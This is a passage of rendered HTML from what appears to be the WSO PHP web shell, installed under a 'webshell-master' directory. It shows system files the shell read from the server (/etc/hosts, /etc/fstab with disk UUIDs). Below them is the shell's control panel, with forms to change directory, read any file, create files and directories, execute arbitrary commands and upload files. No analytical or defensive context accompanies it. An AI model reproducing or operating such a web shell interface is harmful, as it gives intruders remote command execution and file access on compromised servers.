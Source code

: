	# The following lines are desirable for IPv6 capable hosts
	::1     ip6-localhost ip6-loopback
	fe00::0 ip6-localnet
	ff00::0 ip6-mcastprefix
	ff02::1 ip6-allnodes
	ff02::2 ip6-allrouters</pre><span>Mount options: </span><pre class=ml1># /etc/fstab: static file system information.
	#
	# Use 'blkid' to print the universally unique identifier for a
	# device; this may be used with UUID= as a more robust way to name devices
	# that works even if disks are added and removed. See fstab(5).
	#
	# <file system> <mount point>   <type>  <options>       <dump>  <pass>
	# / was on /dev/sda1 during installation
	UUID=e2e224b9-943a-4aca-a16b-5c1ad56c2bb8 /               ext4    errors=remount-ro 0       1
	# swap was on /dev/sda5 during installation
	UUID=69e07eed-0262-4c8a-8d02-91f64ab7eb90 none            swap    sw              0       0
	/dev/fd0        /media/floppy0  auto    rw,user,noauto,exec,utf8 0       0</pre></div>
	</div>
	<table class=info id=toolsTbl cellpadding=3 cellspacing=0 width=100%>
		<tr>
			<td><form onsubmit="g(null,this.c.value,'');return false;"><span>Change dir:</span><br><input class='toolsInp' type=text name=c value='/var/www/html/webshell-master/php/wso/'><input type=submit value='submit'></form></td>
			<td><form onsubmit="g('FilesTools',null,this.f.value);return false;"><span>Read file:</span><br><input class='toolsInp' type=text name=f required><input type=submit value='submit'></form></td>
		</tr><tr>
			<td><form onsubmit="g('FilesMan',null,'mkdir',this.d.value);return false;"><span>Make dir:</span> <font color='#FFDB5F'>[ Writeable ]</font><br><input class='toolsInp' type=text name=d required><input type=submit value='submit'></form></td>
			<td><form onsubmit="g('FilesTools',null,this.f.value,'mkfile');return false;"><span>Make file:</span> <font color='#FFDB5F'>[ Writeable ]</font><br><input class='toolsInp' type=text name=f required><input type=submit value='submit'></form></td>
		</tr><tr>
			<td><form onsubmit="g('Console',null,this.c.value);return false;"><span>Execute:</span><br><input class='toolsInp' type=text name=c value=''><input type=submit value='submit'></form></td>
			<td><form method='post' ENCTYPE='multipart/form-data'>
			<input type=hidden name=a value='FilesMan'>
			<input type=hidden name=c value='/var/www/html/webshell-master/php/wso/'>
			<input type=hidden name=p1 value='uploadFile'>
			<input type=hidden name=ne value=''>
			<input type=hidden name=charset value='UTF-8'>
			<span>Upload file:</span> <font color='#FFDB5F'>[ Writeable ]</font><br><input class='toolsInp' type=file name=f[]  multiple><input type=submit value='submit'></form><br  ></td>
		</tr></table></div>
		<!-- particles --> <div id='particles-js'></div><script src='http://cdn.jsdelivr.net/particles.js/2.0.0/particles.min.js'></script>